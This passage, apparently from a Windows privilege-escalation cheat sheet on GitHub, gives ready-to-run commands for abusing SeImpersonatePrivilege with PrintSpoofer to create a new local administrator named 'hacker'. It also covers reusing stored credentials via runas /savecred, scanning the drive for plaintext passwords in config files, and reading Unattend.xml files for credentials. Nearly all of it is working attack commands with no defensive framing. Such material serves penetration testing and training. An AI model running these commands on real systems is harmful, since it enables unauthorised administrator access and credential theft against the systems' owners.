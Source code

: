 ### Abusing SeImpersonatePrivilege

```powershell
# Check if you have SeImpersonatePrivilege
whoami /priv

# If available, use tools like:
# - JuicyPotato
# - RoguePotato
# - PrintSpoofer
```

Example with PrintSpoofer:
```
PrintSpoofer.exe -i -c "cmd /c net user hacker Password123! /add && net localgroup Administrators hacker /add"
```

## Stored Credentials

### Windows Credential Manager

```powershell
# List saved credentials
cmdkey /list

# Use saved credentials to run command
runas /savecred /user:DOMAIN\UserName "cmd.exe /c whoami > C:\temp\whoami.txt"
```

### Searching for Configuration Files and Passwords

```powershell
# Search for files containing 'password'
findstr /si password *.txt *.ini *.config *.xml

# PowerShell version
Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.config,*.xml -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" | Out-File C:\temp\found_passwords.txt
```

### Unattended Installation Files

```powershell
# Check for unattended installation files
type C:\Windows\Panther\Unattend.xml
type C:\Windows\Panther\Unattended.xml
type C:\Windows\Panther\Unattend\Unattended.xml
type C:\Windows\System32\Sysprep\Unattend.xml
type C:\Windows\System32\Sysprep\Panther\Unattend.xml
```

## File System Vulnerabilities
